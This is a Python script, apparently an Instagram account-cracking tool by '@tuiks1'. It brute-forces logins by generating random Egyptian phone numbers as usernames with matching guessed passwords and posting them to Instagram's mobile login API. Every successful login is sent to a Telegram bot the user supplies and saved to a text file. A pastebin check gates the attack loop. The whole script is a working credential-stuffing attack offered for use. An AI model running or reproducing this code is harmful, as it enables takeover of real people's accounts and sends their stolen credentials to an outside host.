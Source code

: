 import os
import pyfiglet, requests, os, sys, time
import requests, os, random, json, threading, secrets, uuid, pyfiglet, threading, sys, time
from colorama import Fore, Style
from time import sleep
from datetime import datetime
from secrets import token_hex
from uuid import uuid4
from random import randint
from user_agent import generate_user_agent
import sys as n
import time as mm
import requests, os, random, json, threading, secrets, uuid
from colorama import Fore, Style
from time import sleep
from datetime import datetime
from secrets import token_hex
from uuid import uuid4
from user_agent import generate_user_agent
import pyfiglet
import os
import random
import uuid
import requests
import string
from user_agent import generate_user_agent
from datetime import datetime
from random import *
from time import sleep
import requests
import os
import random
import json
import threading
import secrets,uuid
from colorama import Fore, Style
from time import sleep
from datetime import datetime
from secrets import token_hex
try:
    import requests
except ImportError:
    os.system('pip install requests')
    import requests
    clear()
try:
    from colored import fg
except ImportError:
    os.system('pip install colored')
    from colored import fg
    clear()
try:
    from uuid import uuid4
except ImportError:
    os.system('pip install uuid')
    from uuid import uuid4
    clear()
try:
    import random
except ImportError:
    os.system('pip install random')
    import random
def close():
    input('- Press Enter To Exit /')
    sys.exit()
try:
    import uuid
except:
    os.system ("pip install uuid")
try:
    from random import *
except:
    os.systeam("pip install random ")
try:
     import string
except:
    os.system("pip install string")
try:
    import requests 
except:
    os.system ("pip install requests ")
try:
    from user_agent import generate_user_agent
except:
    os.system("pip install user_agent ")
try:
    from datetime import datetime
except:
    os.system("pip install datetime ")
try:
    import time
except:
    os.system("pip install time")
os.system("clear")
try:
    import pyfiglet
except:
    os.system("pip install pyfiglet")
os.system("clear")
import pyfiglet
import os
from time import sleep
import webbrowser
import os, sys, requests

Alosh ='tuiks'

P = '\033[2;35m'
J = '\034[1;31m'
I = '\033[2;36m'
H = '\033[2;35m'
A = '\033[2;36m'
E = '\033[1;31m'
Z = '\033[2;31m'
E = '\033[1;31m'
G = '\033[1;32m'
S = '\033[1;33m'

import user_agent, random, uuid, requests, string
from user_agent import generate_user_agent
from datetime import datetime
from random import *
from time import sleep
import requests, os, random, json, threading, secrets, uuid
from colorama import Fore, Style
from time import sleep
from datetime import datetime
from secrets import token_hex
from uuid import uuid4
import pyfiglet, webbrowser
sleep(0.1)
Z = '\033[1;31m' #Ø§Ø­Ù…Ø±
X = '\033[1;33m' #Ø§ØµÙØ±
Z1 = '\033[2;31m' #Ø§Ø­Ù…Ø± Ø«Ø§Ù†ÙŠ
F = '\033[2;32m' #Ø§Ø®Ø¶Ø±
A = '\033[2;39m' #Ø§Ø²Ø±Ù‚
C = '\033[2;35m' #ÙˆØ±Ø¯ÙŠ
B = '\033[2;36m'#Ø³Ù…Ø§Ø¦ÙŠ
pess = input (F + ' Enter Your Password: ')
webbrowser.open ('https://t.me/TuIks1/1516')
if pess == Alosh:
    print(B+ ' Success Password ')
    time.sleep(2)
    os.system ('clear')
else:
    exit(Z + ' Worng Password ')
alosh = """
\033[1;31m          _    _           _     
\033[1;33m         / \  | | ___  ___| |__ 
\033[2;36m        / _ \ | |/ _ \/ __| '_ \ 
\033[2;32m       / ___ \| | (_) \__ \ | | |
\033[1;31m      /_/   \_\_|\___/|___/_| |_| 
\033[1;33m----------------------------â€-------------------------
\033[1;31m[\033[2;32m*\033[1;31m]\033[2;32mTelegram\033[1;33m:\033[2;36m@tuiks1
\033[1;31m[\033[2;32m*\033[1;31m]\033[2;32mBY\033[1;33m:\033[1;36m@tuikss
\033[1;33m----------------------------â€-------------------------
"""
aa = 0
zz = 0
ib = 0

print (alosh)
print (''+Z+'['+F+'*'+Z+']'+X+'  Ø§Ø¯Ø®Ù„ ØªÙˆÙƒÙ† Ø§Ù„ØªÙŠÙ„ÙƒØ±Ø§Ù… ')
tok =  input(F+'     =>  '+B)
os.system('clear')
webbrowser.open('https://t.me/TuIks1')
print (alosh)
print (''+Z+'['+F+'*'+Z+']'+X+'Ø§Ø¯Ø®Ù„ Ø§ÙŠØ¯ÙŠ Ø­Ø³Ø§Ø¨Ùƒ ') 
ID =  input(F+'     =>  '+B)
os.system('clear')
print (alosh)
w = 'https://pastebin.com/R0msdDfe'
import time
t = time.localtime()
current_time = time.strftime("%H:%M:%S", t)
sleep(2)
rss = requests.get(w).text
if 'TTH' in rss:
    sleep(0.1)
    r = requests.Session()
    user = '0123456789'
    while True:
        us = str(''.join((random.choice(user) for i in range(7))))
        username = '+20122' + us
        password = '0122' + us
        
        url = 'https://i.instagram.com/api/v1/accounts/login/'          
        headers = {'User-Agent': 'Instagram 113.0.0.39.122 Android (24/5.0; 515dpi; 1440x2416; huawei/google; Nexus 6P; angler; angler; en_US)',  'Accept':'*/*', 
         'Cookie':'missing', 
         'Accept-Encoding':'gzip, deflate', 
         'Accept-Language':'en-US', 
         'X-IG-Capabilities':'3brTvw==', 
         'X-IG-Connection-Type':'WIFI', 
         'Content-Type':'application/x-www-form-urlencoded; charset=UTF-8', 
         'Host':'i.instagram.com'}
        uid = str(uuid4())
        data = {'uuid':uid,  'password':password, 
         'username':username, 
         'device_id':uid, 
         'from_reg':'false', 
         '_csrftoken':'missing', 
         'login_attempt_countn':'0'}
        req_login = r.post(url, headers=headers, data=data, allow_redirects=True)
        if 'logged_in_user' in req_login.text:
            zz += 1
            print(G + 'username ==> : ' + username + ': password ==> : ' + password)
            tlg =(f'''https://api.telegram.org/bot{tok}/sendMessage?chat_id={ID}&text=âœ….ð’‰ð’Šð’• [{zz}]
= = = = = = = = = = = = =
.ðŸ‘®â€â™€.ð’‘ð’‚ð’”ð’” [{password}]
.ðŸ“§.ð’†ð’Žð’‚ð’Šð’ [{username}]
.ðŸ•¡.ð’•ð’Šð’Žð’† [{current_time}]
= = = = = = = = = = = = =
ð’ƒð’š:-  @tuiks1 :- @tuikss
''')
            i = requests.post(tlg)
            with open('tuiksss.txt', 'a') as (tuiks1):
                tuiks1.write(' [-] UserName : {} \n [-] Passowrd : {} \n\n'.format(username,password))
        elif '"message":"challenge_required","challenge"' in req_login.text:
            ib+=1
            print (S+'username S ==> : '+username+': password ==> : '+password)
        else:
            print (E+'username ==> : '+username+': password ==> : '+password)
            aa+=1
else:
            print(Z + 'username ==> : ' + username + ': password ==> : ' + password)
            aa += 1
